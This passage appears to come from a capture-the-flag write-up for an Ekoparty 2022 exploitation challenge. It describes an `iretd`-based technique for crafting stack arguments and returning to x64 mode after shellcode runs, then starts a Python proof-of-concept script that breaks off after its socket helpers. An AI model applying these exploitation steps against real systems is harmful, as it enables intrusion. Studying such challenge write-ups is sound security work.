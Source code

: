 
(4) The final idea is to use `iretd` instruction. Before doing the arbitrary call, client input is saved on stack. Lucky for us the stack pointer is below the buffer by 0x38 bytes. And so by executing 7 `pop` instructions we would be able to craft `iretd`'s arguments.

(5) After jumping to shellcode, `iretd` is executed again restoring the x64 address space and so instructions, read comments inside the poc for more info.


----

## PoC

- [poc.py](https://github.com/tin-z/report_BFS_ekoparty_2022_exploitation_challenges/blob/main/poc.py)
- [poc.gif](https://github.com/tin-z/report_BFS_ekoparty_2022_exploitation_challenges/blob/main/poc.gif)

```python
#!/usr/bin/env python3
import socket
import sys
import struct
import time

# Author: Altin (tin-z) (https://github.com/tin-z)


if len(sys.argv) != 3 :
  print("Usage {} <host> <ip>".format(sys.argv[0]))
  sys.exit(-1)

HOST = sys.argv[1]
PORT = int(sys.argv[2])

try :
  print("[!] Sending")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((HOST, PORT))
except socket.error:
  print("Could not connect!")
  sys.exit(-1)


def flush(t_sleep=1):
  time.sleep(t_sleep)

def send():
  global msg, s
  flush()
  s.send(msg)


def recv_until(msg):
  global s
  data = b''
  while not data.endswith(msg):
    tmp = s.recv(1)
    if not tmp :
      break
    data += tmp
  return data


def recv():
  global s
```
